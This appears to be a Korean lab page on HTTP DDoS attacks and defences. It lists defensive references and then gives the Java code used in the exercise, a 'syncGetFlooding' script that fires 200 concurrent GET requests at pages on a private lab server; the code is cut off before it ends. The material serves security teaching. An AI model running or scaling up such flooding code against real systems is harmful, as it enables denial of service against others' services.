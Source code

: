## 참고한 자료

- 네트워크 해킹과 보안 4판(양대일, 홍성혁)
- 이대섭, 원동호(2012), “Content-Length 통제기반 HTTP POST DDoS 공격 대응 방법 분석", 한국정보보호학회.
- DDoS 공격 대응 가이드, 한국인터넷진흥원



### 실습에 사용한 JAVA 코드 

```JAVA
import java.io.IOException;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.ArrayList;
import java.util.List;
import java.util.concurrent.Callable;
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;
import java.util.concurrent.Future;

public class syncGetFlooding {
	public static void main(String[] args) throws Exception {
		List<String> urls = new ArrayList<>();
		urls.add("http://192.168.159.217/");
        urls.add("http://192.168.159.217/login.html");
        urls.add("http://192.168.159.217/register.html");
        urls.add("http://192.168.159.217/register.html");
        urls.add("http://192.168.159.217/utilities-color.html");
        urls.add("http://192.168.159.217/charts.html");
        // 추가적인 URL들을 필요한 만큼 추가합니다.

        long beforeTime = System.currentTimeMillis();
        int totalRequests = 200; // 총 요청 횟수
        int successCount = 0; // 성공한 요청 횟수
        ExecutorService executorService = Executors.newFixedThreadPool(25); // 스레드 풀 생성

        List<Callable<Integer>> callables = new ArrayList<>();
        for (int i = 0; i < totalRequests; i++) {
            int urlIndex = i % urls.size(); // URL 목록에서 순환하도록 인덱스 계산
            String urlString = urls.get(urlIndex);
            final URL url = new URL(urlString);

            callables.add(() -> {
                try {
                    HttpURLConnection conn = (HttpURLConnection) url.openConnection();
                    conn.setRequestMethod("GET");
                    if (conn.getResponseCode() == 200) { // 성공한 경우
                        return 1;
                    }
                } catch (IOException e) {
                    e.printStackTrace();
                }
                return 0;
            });
        }

        List<Future<Integer>> futures = executorService.invokeAll(callables);
        
        executorService.shutdown(); // 스레드 풀 종료

        for (Future<Integer> future : futures) {
            successCount += future.get();
        }
```